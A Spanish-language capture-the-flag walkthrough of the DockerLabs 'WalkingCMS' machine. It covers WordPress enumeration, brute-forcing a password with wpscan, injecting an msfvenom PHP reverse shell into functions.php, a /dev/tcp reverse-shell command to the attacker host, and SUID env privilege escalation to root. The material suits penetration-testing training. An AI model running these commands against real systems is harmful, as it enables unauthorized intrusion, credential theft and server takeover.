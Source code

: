 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WalkingCMS".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh walkingcms.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene un unico puerto abierto:
```
Discovered open port 80/tcp on 172.17.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Pero unicamente vemos una pagina de Apache2 normal.
Por lo tanto, vamos a probar a hacer un poco de FUZZING WEB a ver si hay suerte:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
El resultado de pasar GOBUSTER es:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]                                                                      
Progress: 143724 / 830576 (17.30%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 144102 / 830576 (17.35%)
===============================================================
Finished
===============================================================
```
Vemos que hay un Wordpress instalado, asi que vamos a ver si hay algun panel de login. No obstante, yo prefiero volver a usar GOBUSTER sobre el directorio "/wordpress":
```
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Obteniendo lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]                                                                        
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]                                                           
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]                                                          
/wp-login.php         (Status: 200) [Size: 6580]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]                                                             
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]                                            
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Tal y como se puede ver (aunque nos lo imaginaramos antes de usar GOBUSTER esta segunda vez), hay un "wp-login.php", por lo que iremos al navegador y entraremos en la direccion: "172.17.0.2/wordpress/wp-login.php". Aqui veremos un bonito panel de Login (logicamente) de Wordpress.
Es momento ahora de usar una herramienta especifica para intentar encontrar primero usuarios dentro de entornos CMS como este, que se llama WPSCAN. En la terminal podremos:
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
Y vemos que nos encuentra un usuario llamado "mario":
```
[i] User(s) Identified:

[+] mario  <==== Usuario detectado "mario"
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Perfecto. Ya tenemos el usuario, pero... ¿y la contraseña? Bien, para encontrarla, aunque hay otras herramientas, usaremos de nuevo WPSCAN ya que esta mas indicada para CMS's:
```
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```
Y nos encuentra la contraseña "love", como se puede ver a continuacion:
```
[!] Valid Combinations Found:
 | Username: mario, Password: love
```
**NOTA: Antes de continuar, hay que decir que al usar WPSCAN, se pone la ruta donde se encuentra el panel de Login PERO sin el "wp-login.php" (OJO CON ESTO !! ES MUY IMPORTANTE)**

Una vez encontrada la contraseña y aclarado lo anterior, pasamos a introducir las credenciales en el panel de login, lo que nos da acceso al panel de control de Wordpress del usuario "mario".
Bien, ahora nos interesaria inyectar codigo malicioso en ".php" pero no se observa ningun apartado donde poder subir algun archivo, por lo que otra alternativa es intentar inyectar el codigo malicioso directamente.
Lo primero que haremos sera abrir una terminal y  crear directamente el codigo malicioso con "msfvenom". Vamos a intentar obtener una reverse, por lo que usaremos:
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverseWalkingCMS.php
```
ya con el codigo malicioso creado, lo que haremos sera copiar al portapapeles TODO el contenido del archivo "reverseWalkingCMS.php".
Ahora nos dirigiremos de nuevo al navegador, y concretamente, al panel de control del usuario "mario", donde estabamos antes.
En este panel de control seleccionaremos en el menu de la izquierda la opcion "Apariencia", y dentro de ella, elegiremos donde pone "Theme Code Editor".
Perfecto, ahora es momento de inyectar nuestro codigo. Para ello, en la parte de la derecha, veremos un archivo que se llama "functions.php", por ejemplo.
Lo que haremos es simplemente abrir ese archivo y borrar todo su contenido, sustituyendolo por nuestro codigo malicioso.
Antes de continuar y grabar el archivo, abriremos DOS ventanas de la terminal:

   1) Una la pondremos a la escucha por el puerto 443 (el del codigo malicioso).
   2) La segunda, la pondremos a la escucha por el puerto 444, por ejemplo.

¿Y por que hacemos esto? Lo explico:
Cuando se hace un "payload" o codigo malicioso con "msfvenom" en PHP, normalmente al de unos segundos/minutos nos expulsa de la maquina, por lo que es conveniente siempre estabilizar esa conexion que obtenemos con el "payload".
La forma mas sencilla de estabilizarla es abrir una segunda terminal (como acabamos de hacer) e ir a la pagina "revshells.com".
En esta pagina, meteremos nuestra IP y el puerto que hemos elegido en la segunda terminal, es decir, el puerto al que queramos "redirigir" la conexion obtenida con el "payload".
Una vez hecho, en la parte de abajo, por defecto, nos proporcionara una reverse. En este caso en concreto:
```
sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```
Esta reverse, sera la que meteremos luego en la primera terminal para estabilizar la conexion.
Bien, aclarado todo esto, volvemos al navegador y a nuestro panel de control de Wordpress.
Si recordadmos habiamos sustituido ya el codigo original de "functions.php" por nuestro "payload". Ahora ya solo tenemos que pinchar sobre el boton azul que pone "Update File" y esperar a que nos confirme Wordpress que se ha guardado correctamente.
En mi caso, simplemente con hacer esto ya me ha cogido directamente la conexion por el puerto 443, pero si vemos que no lo hace, iremos al navegador, pondremos la direccion "172.17.0.1/wordpress/" (por ejemplo) y ya deberia hacerlo.
Bien, ¿y ahora que? Pues como hemos dicho, hay que estabilizar la conexion antes de que nos "eche", por lo que introduciremos en ese primer terminal (el del puerto 443) el siguiente comando:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"
```
Lo que nos mandara la "reverse" a nuestra segunda terminal (la del puerto 444) y asi tendremos la conexion estabilizada. Ahora ya podriamos cerrar la primera terminal ya que no la necesitamos mas.
Bien, volviendo a la segunda terminal y escribiendo "whoami" vemos lo siguiente:
```
$ whoami
www-data
$ 
```
Nos quedarian ya solo dos cositas por hacer: el tratamiento de la TTY y la escalada de privilegios.
Empezaremos por el tratamiento de la TTY. Para ello haremos lo siguiente:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Vale, finalizado el tratamiento de la TTY, pasaremos a la escalada de privilegios probando primero con el comando "sudo -l":
```
bash: sudo: command not found
```
Vemos que no se puede continuar por ahi, asi que usaremos otro metodo. Esta vez utilizaremos el comando: "find / -perm -4000 2>/dev/null"
```
find / -perm -4000 2>/dev/null

/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Una vez obtenida la lista de binarios con permisos "SUID", iremos a la pagina de "gtfobins" y buscaremos cada uno de ellos para ver si podemos utilizarlos.
En este caso, el que funcionaria seria "/usr/bin/env", por lo que en "gtfobins" veremos que "env">SUID, nos presenta el siguiente codigo para hacer una reverse:
```
./env /bin/sh -p
```
No obstante, en nuestro caso pondremos la ruta COMPLETA:
```
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
Finalmente vemos que hemos tenido acceso "root" en la maquina.
Como opcional, podriamos escribir el comando "bash -p" para obtener un prompt algo mas "normal", tal y como se ve abajo.
```
# bash -p
bash-5.2# whoami
root
bash-5.2#
```
